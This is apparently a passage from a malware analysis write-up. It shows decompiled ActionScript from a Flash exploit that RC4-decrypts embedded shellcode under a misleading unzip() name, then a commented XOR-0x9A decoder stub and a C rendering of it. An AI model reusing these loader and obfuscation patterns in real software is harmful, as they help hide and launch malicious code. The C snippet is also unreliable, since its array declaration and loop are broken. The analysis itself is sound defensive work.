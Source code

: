 `1_shell_rc4` blob is the shellcode RC4-encrypted with the `"littleEndian"` key for
`1_nw22_swf_rc4` exploit. All exploit have a similar payload.
You may notice the call to `unzip()` which is the original symbol and is actually a call
to the RC4 decryption routine. Also note that `"LittleEndian"` is being used
legitimately in other parts of the code so it may try to confuse an analyst.

```actionscript
private static var skotina_class:Class = shell_rc4$787c4c90c7cad51cecb05491d510c088307104563;

private function get_skotina(param1:String, param2:String, param3:String) : ByteArray
{
   var _loc5_:String = "iso-8859-1";
   var _loc7_:String = "littleEndian";
   if(param1 == null || param2 == null || param3 == null)
   {
      return null;
   }
   var _loc6_:ByteArray = new ByteArray();
   _loc6_ = unzip(_loc7_,new skotina_class() as ByteArray);
   ...
}
```

We decrypt `1_shell_rc4` blob by using a script similar to `stage2_decrypt.py` and get
`1_shell_rc4_decrypted_1`. We drop this into IDA Pro and get the following
assembly routine that we commented:

```
    jmp     short prepare_decrypt_payload
decrypt_payload:
    pop     eax                     ; eax points to payload below
    xor     ecx, ecx                ; i = 0
    mov     cx, 59Ch                ; i = sizeof(payload)

decrypt_loop:
    dec     ecx                     ; ecx--
    xor     byte ptr [eax+ecx], 9Ah ; payload[i] ^= 0x9A
    test    ecx, ecx                ; i == 0?
    jnz     short decrypt_loop
    jmp     eax                     ; jump to payload
prepare_decrypt_payload:
                call    decrypt_payload
; ---------------------------------------------------------------------------
payload     dd 197F13CFh
            dd 0CBC9365Eh
            ...
```

This is equivalent to the following C code. Basically it is an XOR decryption
routine using the one-byte key `0x9A`:

```c
char payload = {0xcf, 0x13, 0x7f, 0x19, ...};
DWORD i = sizeof(payload);
while (i > 0) {
	payload[i] ^= 0x9A;
}
void(*func)(); 
func = &payload;
func();
```
